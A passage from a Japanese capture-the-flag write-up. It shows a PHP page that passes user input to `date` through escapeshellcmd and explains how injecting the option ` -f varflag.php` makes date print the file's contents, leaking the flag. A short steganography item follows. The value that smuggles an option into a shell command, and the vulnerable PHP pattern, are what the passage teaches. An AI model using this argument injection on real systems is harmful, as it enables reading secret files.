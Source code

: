 ```php
...
<h1>
<?php
$cmd = 'date';
$fmt = isset($_GET['fmt'])?$_GET['fmt']:"";
if (isset($_GET['rfc'])) {
	$cmd = $cmd . ' -R';
	$rfcx = ' checked';
}
if ($fmt != "") {
	$cmd = $cmd . ' +' . $fmt;
	$fmtx = ' value="' . $fmt . '"';

}
$cmd = escapeshellcmd($cmd);
$res = system($cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && strpos($fmt, 'easter') != false) {
	echo "<b style='color:red'>$flag</b>";
}
?>
</h1>
...
```

入力したフォーマットは `escapeshellarg` ではなく `escapeshellcmd` を使ってエスケープされています。そのため、` -a hoge` のような入力をすることで好きなオプションを追加できます。

`man date` を見ていると以下のようなオプションを見つけました。

```
       -f, --file=DATEFILE
              like --date once for each line of DATEFILE
```

これでファイルの読み込みができそうです。` -f varflag.php` を入力するとフラグが得られました。

```
date: invalid date '<?php'
date: invalid date '$date = "Sunday April 1st 2018. 2018-04-01";'
date: invalid date '$easy_flag = "FLAG{Want Love? Don\'t Date!}";'

date: invalid date '?>'
```

```
FLAG{Want Love? Don\'t Date!}
```

## [Steg 25] sudo

`sudo.tgz` というファイルが与えられました。展開すると `sudo.png` にフラグが書き込まれていました。

```
FLAG{archives_are_waaaaayyy_easier_than_sudokus}
```
